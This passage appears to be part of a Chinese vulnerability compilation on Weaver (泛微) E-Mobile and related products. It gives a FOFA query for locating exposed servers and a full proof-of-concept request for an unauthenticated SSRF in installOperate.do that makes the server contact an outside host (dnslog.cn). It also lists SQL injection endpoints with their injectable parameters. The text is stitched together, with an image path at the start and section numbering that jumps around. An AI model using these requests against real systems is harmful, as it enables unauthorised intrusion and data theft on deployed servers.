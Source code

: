   
其他表达式相关文章：  
表达式注入.pdf  
|  
原文地址  
### 2.1.28泛微E-Mobile系统接口installOperate.do存在SSRF漏洞  
  
泛微E-Mobile installOperate.do 接口处存在服务器请求伪造漏洞，未经身份验证的远程攻击者利用此漏洞扫描服务器所在的内网或本地端口，获取服务的banner信息，窥探网络结构，甚至对内网或本地运行的应用程序发起攻击，获取服务器内部敏感配置，造成信息泄露。  
  
fofa  
  
header="EMobileServer"  
  
poc  
```
GET /install/installOperate.do?svrurl=http://dnslog.cn HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```  
  
3.SQL注入漏洞URL列表（按漏洞编号排序）  
#### 2.1.1 WorkflowCenterTreeData SQL注入  
- **请求方法**  
: POST  
  
- **URL**  
: /mobile/browser/WorkflowCenterTreeData.jsp  
  
- **参数**  
: formids=恶意payload  
  
#### 2.1.2 getSqlData SQL注入  
- **请求方法**  
: GET  
  
- **URL**  
: /Api/portal/elementEcodeAddon/getSqlData  
  
- **参数**  
: sql=恶意SQL语句  
  
#### 2.1.3 WorkPlanService前台SQL注入  
- **请求方法**  
: POST  
  
- **URL**  
: /services/WorkPlanService  
  
- **参数**  
: SOAP报文中的<web:in0>  
值  
  